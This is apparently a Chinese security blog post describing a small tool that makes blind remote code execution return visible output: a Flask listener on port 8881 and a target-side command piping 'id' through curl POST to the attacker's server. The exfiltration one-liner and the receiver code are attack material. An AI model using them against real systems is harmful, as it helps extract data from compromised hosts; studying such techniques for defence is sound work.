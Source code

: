 #  工具 ｜ 无回显变可回显rce   
 F12sec   2023-11-26 20:39  
  
> **申明****：本次测试只作为学习用处，请勿未授权进行渗透测试，切勿用于其它用途！**  
  
## 1.漏洞背景  
  
      在网络安全领域，远程代码执行（RCE）漏洞始终是一个引人关注的话题。这类漏洞允许攻击者在目标系统上执行任意代码，往往会带来严重的安全后果。其中，无回显RCE是特别难以诊断和利用的一种情况，因为攻击者无法直接看到他们执行命令的结果。  
  
通过此方法  
将这种无回显的漏洞转变为可回显，这意味着攻击者可以直接观察到他们的操作结果。这一转变大大提高了这类漏洞的利用效率和潜在影响。  
  
使用方法：  
  
1. 服务端安装python，执行pip install flask。  
  
2. 运行server.py  
  
![](https://mmbiz.qpic.cn/mmbiz_png/kq6gvfy0n7piccicBDcml6O3RsSMMSM0RibH4Qem7YSqXEoL3q9WicYOlt9iclgaq0LN7BrZP14iaLiaDUgf8aUlBUUQw/640?wx_fmt=png "")  
  
  
3. 访问公网域名+8881查看是否开启。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/kq6gvfy0n7piccicBDcml6O3RsSMMSM0RibxsQE0SbAk4ILFuZ7Dqd6icQuQg3RZkqVKlBjfAYRZAcUhICiahWK1feg/640?wx_fmt=png "")  
  
  
  
4. 靶机执行命令：  
  
id | curl -X POST -d @- http://ip:8881/  
  
查看回显。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/kq6gvfy0n7piccicBDcml6O3RsSMMSM0RibG9OWycva2FlWVTqZaImkaWMAIfhliaAObBgb2LQRXef6Qs7JmIFhs1Q/640?wx_fmt=png "")  
  
  
开源地址：https://github.com/shanxigetanxiaochou/curl-rce  
ps:回显前提是靶机出网。关键代码展示：```
from flask import Flask, request, render_template

app = Flask(__name__)

# 设置一个文件来保存数据
DATA_FILE = 'data.txt'

@app.route('/', methods=['GET', 'POST'])
def execute():
    if request.method == 'POST':
        # 从 POST 请求中读取数据并保存到文件
        with open(DATA_FILE, 'w') as file:
            file.write(request.get_data(as_text=True))

    # 从文件中读取数据
    data = ''
    try:
        with open(DATA_FILE, 'r') as file:
            data = file.read()
    except FileNotFoundError:
        # 如果文件不存在，则忽略错误
        pass

    # 打印接收到的数据到控制台
    print("Received data:", data)
    res = "结果为：" + data

    # 返回一个包含接收到的数据的 HTML 页面
    return render_template('result.html', received_data=res)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8881)


```  
  
  
  
   
—————————————————————  
- **往期精彩推荐**  
  
[免杀 ｜ 反沙箱运行上线shellcode](http://mp.weixin.qq.com/s?__biz=MzkxMjYxODcyNA==&mid=2247483694&idx=1&sn=71d07d5092e98b921f8c645521928538&chksm=c10b64a5f67cedb3d875d0e4ebfda7a0180c3f53ac419fe0320ade59bb042e8fd61bc30d6bfa&scene=21#wechat_redirect)  
  
## ❤️爱心三连击  
  
1.关注公众号  
「明暗安全」！  
  
2.本文已收录在明暗官方网站：http://www.php1nf0.top/  
  
3.看到这里了就点个关注支持下吧，你的  
「关注」是我创作的动力。  
  
公众号：明暗安全  
  
官方网站：http://www.php1nf0.top/  
  
这是一个终身学习的团队，他们在坚持自己热爱的事情，欢迎加入明暗安全，和师傅们一起开心的挖洞～  
  
        关注和转发是莫大鼓励❤️  
  
  
  
  
  
  
